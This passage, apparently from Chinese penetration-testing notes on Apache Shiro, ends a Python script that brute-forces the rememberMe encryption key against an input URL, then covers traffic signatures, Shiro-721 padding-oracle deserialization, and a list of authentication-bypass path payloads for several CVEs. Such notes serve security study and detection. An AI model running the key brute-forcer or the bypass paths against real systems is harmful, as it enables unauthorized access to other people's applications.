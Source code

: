 ```python
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36",
            "Cookie": f"rememberMe={payload}"
        }
        response = requests.get(url, headers=headers)
        if "deleteMe" not in response.headers.get('Set-Cookie', ''):
            print(f"[+] 有效的 Shiro key 发现: {key}")
            return True
    print("[-] 未能找到有效的 Shiro key")
    return False

if __name__ == "__main__":
    target_url = input("请输入目标URL: ").strip()
    if check_shiro(target_url):
        brute_force_shiro_key(target_url)
```

#### 流量特征

Cookie 中 `rememberMe` 字段的值很长

![20240530212912](https://cfproxy.iselt.top/https://raw.githubusercontent.com/iselt/ImageBed/main/20240530212912.png)

### CVE-2019-12422/Shiro-721（RememberMe）

#### 漏洞说明

Apache Shiro 1.4.2 之前的版本默认使用 AES/CBC/PKCS5Padding 模式加密,开启 RememberMe 功能的Shiro组件将允许远程攻击者构造序列化数据，攻击者可以在已有的正常登陆的 Cookie rememberMe 值的基础上根据 Padding Oracle Attack 的原理来爆破构造出恶意的 rememberMe 字段，实施反序列化攻击。

> 漏洞复现：<https://www.cnblogs.com/qianxinggz/p/13388405.html>

#### 版本

- Shiro < 1.4.2

#### 流量特征

同 Shiro-550，且不断发很多包

## AntPathMatcher 相关漏洞

- `CVE-2016-6802` 在访问路径前加上/任意目录名/../，即可绕过访问
- `CVE-2020-1957` /demo/..;/admin/index,其中demo为授权路径，admin/index为鉴权路径 /.;/hello/aaaa
- `CVE-2020-11989` admin/page%252fABCDEFG其中admin/page为鉴权路径，ABCDEFG为随意字符串 /hello/a%25%32%66a /;/test/hello/aaa
- `CVE-2020-13933` admin/%3BABCDEFG，其中admin为鉴权路径，ABCDEFG为随意字符串
- `CVE-2020-17510` admin/%2e
- `CVE-2020-17523` admin/%20，其中admin为鉴权路径
- `CVE-2022-32532` 特定条件下的漏洞利用：当shiro使用了RegExPatternMatcher进行路由匹配时，由于Java的正则Pattern.matches解析.默认是不匹配r或者n的，因此当path中带有%0a时可绕过正则匹配 /permit/a%0any

### CVE-2016-6802
